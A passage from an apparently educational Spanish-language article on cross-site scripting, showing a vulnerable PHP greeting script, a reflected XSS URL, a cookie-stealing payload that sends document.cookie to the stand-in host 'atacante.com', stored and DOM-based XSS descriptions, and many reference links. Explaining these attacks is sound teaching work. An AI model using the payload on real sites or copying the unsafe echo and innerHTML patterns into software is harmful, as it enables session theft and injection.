 PHP vulnerable:

```php
<?php
  if (isset($_GET['name'])) {
    echo "Hola, " . $_GET['name'] . "!";
  }
?>
```

**Explotación:**
URL maliciosa: `https://victima.com/saludo.php?name=<script>alert("XSS")</script>`

**Payload de Robo de Cookies:**

```javascript
<script>
var img = new Image(); 
img.src = "http://atacante.com/steal?cookie=" + document.cookie;
</script>
```

### 2. XSS Almacenado (Stored XSS)

El XSS almacenado es considerado el más peligroso porque el payload se guarda permanentemente en el servidor.[^5]

**Características:**

- El script malicioso se almacena en base de datos, archivos o logs
- Se ejecuta automáticamente cuando cualquier usuario visita la página afectada
- No requiere interacción específica más allá de cargar la página
- También conocido como XSS persistente o Tipo II[^5]
- Puede crear gusanos XSS que se propagan automáticamente[^6]

**Superficies de Ataque Comunes:**

- Campos de perfil de usuario
- Comentarios y posts en foros
- Nombres de archivos subidos
- Logs visibles por administradores
- Formularios de contacto[^6]

### 3. XSS Basado en DOM (DOM-based XSS)

Esta variante ocurre enteramente en el lado del cliente, sin que el servidor procese el payload malicioso.[^8]

**Características:**

- La vulnerabilidad reside en el código JavaScript del cliente
- El payload puede no llegar nunca al servidor
- Difícil de detectar por WAFs o logs del servidor
- Explota fuentes (sources) y sumideros (sinks) peligrosos[^8]

**Ejemplo Vulnerable:**

```javascript
// Fuente peligrosa
var searchTerm = location.hash.substring(1); 
// Sumidero peligroso
document.getElementById('searchResults').innerHTML = "Resultados para: " + searchTerm;
```


[^1]: https://www.jit.io/resources/app-security/what-is-cve-2024-44308-xss-and-how-to-protect-from-it
[^2]: https://www.invicti.com/blog/web-security/2024-cwe-top-25-list-xss-sqli-buffer-overflows/
[^3]: https://portswigger.net/web-security/cross-site-scripting
[^4]: https://www.securityjourney.com/post/understanding-the-4-types-of-cross-site-scripting-xss-vulnerabilities
[^5]: https://owasp.org/www-community/attacks/xss/
[^6]: https://www.uprootsecurity.com/blog/stored-xss-attack-explained
[^7]: https://cyberphinix.de/blog/xss-basics/
[^8]: https://community.f5.com/kb/technicalarticles/cross-site-scripting-xss-exploit-paths/275166
[^9]: https://www.vaadata.com/blog/dom-based-xss-attacks-principles-impacts-exploitations-and-security-best-practices/
[^10]: https://www.twingate.com/blog/glossary/mutation-xss-attack
[^11]: https://kpmg.co.il/technologyconsulting/blog/what-is-mutation-xss-mxss
[^12]: https://curity.io/resources/learn/oauth-xss-prevention/
[^13]: https://www.browserstack.com/guide/csp-bypass
[^14]: https://www.angularminds.com/blog/vulnerabilities-and-solutions-for-react-js-security
[^15]: https://pentescope.com/essential-xss-prevention-strategies-for-developers/
[^16]: https://www.stackhawk.com/blog/angular-xss-guide-examples-and-prevention/
[^17]: https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection
[^18]: https://portswigger.net/kb/issues/00200308_client-side-template-injection
[^19]: https://www.paloaltonetworks.com/blog/cloud-security/template-injection-vulnerabilities/
[^20]: https://www.cloudflare.com/learning/security/how-to-prevent-xss-attacks/
[^21]: https://www.securityjourney.com/post/mitigating-preventing-cross-site-scripting-xss-vulnerabilities-an-example
[^22]: https://github.com/Ant1sec-ops/CVE-2024-30875
[^23]: https://www.code-intelligence.com/blog/what-is-cross-site-scripting
[^24]: https://www.vaadata.com/blog/xss-cross-site-scripting-vulnerabilities-principles-types-of-attacks-exploitations-and-security-best-practices/
[^25]: https://www.appgate.com/blog/cross-site-scripting-xss-in-bigid-privacy-portal
[^26]: https://vercel.com/guides/understanding-xss-attacks
[^27]: https://www.memcyco.com/guide-to-preventing-xss-attacks/
[^28]: https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
[^29]: https://security.snyk.io/vuln/SNYK-RUBY-BOOTSTRAP-7640987
[^30]: https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/XSS
[^31]: https://learn.microsoft.com/en-us/aspnet/core/security/cross-site-scripting?view=aspnetcore-9.0
[^32]: https://www.reddit.com/r/bugbounty/comments/1g8hffv/new_xss_attack_techniques_2024/
[^33]: https://www.invicti.com/learn/cross-site-scripting-xss/
[^34]: https://arxiv.org/html/2504.08176v1
[^35]: https://www.linkedin.com/pulse/mastering-xss-advanced-techniques-bypass-web-application-firewalls-r9thc
[^36]: https://www.softwaresecured.com/post/types-of-xss-attacks
[^37]: https://www.acunetix.com/blog/articles/xss-filter-evasion-bypass-techniques/
[^38]: https://akimbocore.com/article/finding-dom-xss/
[^39]: https://www.cobalt.io/vulnerability-wiki/v5-validation-sanitization/reflected-xss-waf-bypass
[^40]: https://www.imperva.com/learn/application-security/cross-site-scripting-xss-attacks/
[^41]: https://www.cyberchief.ai/2024/11/dom-based-xss-fix.html
[^42]: https://brightsec.com/blog/how-i-bypassed-an-imperva-waf/
[^43]: https://nvd.nist.gov/vuln/detail/cve-2024-20800
[^44]: https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
[^45]: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
[^46]: https://security.snyk.io/vuln/SNYK-JS-DOMPURIFY-8184974
[^47]: https://www.sysdig.com/blog/fuzzing-and-bypassing-the-aws-waf
[^48]: https://www.hackerone.com/knowledge-center/how-xss-payloads-work-code-examples-and-how-prevent-them
[^49]: https://onlinelibrary.wiley.com/doi/abs/10.1002/nem.2264
[^50]: https://www.vaadata.com/blog/content-security-policy-bypass-techniques-and-security-best-practices/
[^51]: https://www.sonarsource.com/blog/mxss-the-vulnerability-hiding-in-your-code/
[^52]: https://payatu.com/blog/content-security-policy/
[^53]: https://www.sans.org/white-papers/40380/
[^54]: https://jorianwoltjer.com/blog/p/research/mutation-xss
[^55]: https://www.cobalt.io/blog/csp-and-bypasses
[^56]: https://sonarsource.github.io/mxss-cheatsheet/examples/
[^57]: https://github.com/bhaveshk90/Content-Security-Policy-CSP-Bypass-Techniques
[^58]: https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss
[^59]: https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-bypass
[^60]: https://notes.theoffsecgirl.com/06-hacking-ios/06e-owasp-mobile-top-10
[^61]: https://github.com/requarks/wiki/security/advisories/GHSA-xjcj-p2qv-q3rf
[^62]: https://www.reddit.com/r/xss/comments/13rghb4/does_xss_exists_in_framework_like_react_vue_and/
[^63]: https://flatt.tech/research/posts/why-xss-persists-in-this-frameworks-era/
[^64]: https://www.invicti.com/web-application-vulnerabilities/client-side-template-injection
[^65]: https://www.cybersrely.com/how-to-prevent-xss-in-restful-apis/
[^66]: https://hackerone.com/reports/2234564
[^67]: https://thehackernews.com/2025/07/why-react-didnt-kill-xss-new-javascript.html
[^68]: https://security.snyk.io/vuln/SNYK-PHP-LARAVELFRAMEWORK-9400966
[^69]: https://www.invicti.com/web-application-vulnerabilities/angularjs-client-side-template-injection
[^70]: https://vuejs.org/guide/best-practices/security